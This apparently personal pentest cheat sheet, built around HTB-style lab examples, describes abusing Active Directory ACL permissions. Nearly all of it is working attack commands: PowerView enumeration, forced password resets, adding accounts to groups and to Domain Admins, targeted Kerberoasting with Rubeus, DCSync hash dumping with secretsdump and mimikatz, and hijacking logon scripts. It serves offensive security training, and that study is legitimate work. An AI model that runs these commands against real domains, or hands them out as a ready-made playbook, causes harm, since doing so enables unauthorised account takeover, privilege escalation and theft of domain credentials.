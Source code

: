 ```yaml
---
tags:
  - Add-Members
  - Addself
  - AllExtendedRights
  - DS-Replication-Get-Changes
  - ForceChangePassword
  - GenericAll
  - GenericWrite
  - Lateral-Movement
  - Persistence
  - Privilege-Escalation
  - Self-Membership
  - WriteDACL
  - WriteOwner
  - WriteProperty
  - AD
---
```


List of abusable ACEs
    
- `ForceChangePassword` abused with `Set-DomainUserPassword`
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`
## Identify
---
**Windows (powerview)**
```Python
Find-InterestingDomainAcl
```
```Python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
```
```PowerShell
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```
Check what objects have ACLs over a specific user
```powershell
Get-DomainObjectAcl -Identity harry.jones -Domain inlanefreight.local -ResolveGUIDs
```


ACLs are granted to USER1 over USER2
```powershell
(Get-ACL "AD:$((Get-ADUser <USER2>).distinguishedname)").access  | ? {$_.IdentityReference -eq "DOMAIN.LOCAL\USER1"}
```
FInd all users with a specific ACL over USER1 (GenericAll in this example)
```powershell
(Get-ACL "AD:$((Get-ADUser <USER1>).distinguishedname)").access  | ? {$_.ActiveDirectoryRights -match "WriteProperty" -or $_.ActiveDirectoryRights -match "GenericAll"} | Select IdentityReference,ActiveDirectoryRights -Unique | ft -W
```

!!! alert "Note"
	that if PowerView has already been imported, the cmdlet shown below will result in an error. Therefore, we may need to run it from a new PowerShell session.
	**Or just look at bloodhound**


**Manually**
```PowerShell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
```
```PowerShell
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
from here we would google the “ObjectType” entry to find the rights the GUID represents
# Exploit
---
## Force-Change-Password
---
```PowerShell
$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```
```PowerShell
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```
```PowerShell
Import-Module .\Powerview.ps1
```
```PowerShell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
## Add-DomainGroupMember
---
```PowerShell
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```
```PowerShell
Import-Module .\Powerview.ps1
```
```PowerShell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
## GenericAll
---
**Targeted kerberoast**
```PowerShell
Import-Module .\Powerview.ps1
```
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
```PowerShell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
**Add user to domain admins**
```Bash
Net group "domain admins" <user> /add /domain
```
## DS-Replication-Get-Changes-All
---
From linux
```Bash
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
**From windows**
```Bash
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
```Bash
.\mimikatz.exe
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```
## Remove SPN
---
**Removing the Fake SPN from adunn's Account**
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
**Removing damundsen from the Help Desk Level 1 Group**
```PowerShell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
Confirming damundsen was Removed from the Group
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```
## GenericWrite on User
---
####  Targeted Kerberoasting
---
Set SPN (if you're running a process as the user with GenericWrite)
```
setspn -a domain.local/user.domain.local:1337 domain.local\user
```
!!! alert "If your're running as different user"
	
	Import-Module .\Powerview.ps1
	$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	$Cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $SecPassword)

	Set-DomainObject -Credential $Cred -Identity maria -SET @{serviceprincipalname='foobar/xd'}

### Change users logon scripts
___
Global writeable location
```powershell
cd C:\programdata\
echo 'whoami > C:\programdata\out.txt' > test.ps1

Set-DomainObject -Identity <targetuser> -SET @{scriptpath='C:\programdata\test.ps1'}
```
check if it worked
```
net user <target user>
```
